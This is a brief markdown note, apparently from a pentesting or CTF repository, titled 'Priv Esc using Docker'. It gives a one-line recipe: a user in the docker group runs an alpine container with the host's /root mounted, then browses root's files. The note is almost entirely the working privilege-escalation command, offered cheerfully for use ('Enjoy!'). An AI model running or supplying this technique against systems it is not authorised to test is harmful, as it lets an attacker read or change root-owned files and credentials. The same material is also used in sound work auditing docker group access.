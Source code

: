 # Priv Esc using Docker

if it happens that you are in the docker group then do following 

`docker run -v /root:/mnt -it alpine`

Once it is running you get a shell in container 

Navigate to cookies :)

`cd /mnt`

Enjoy!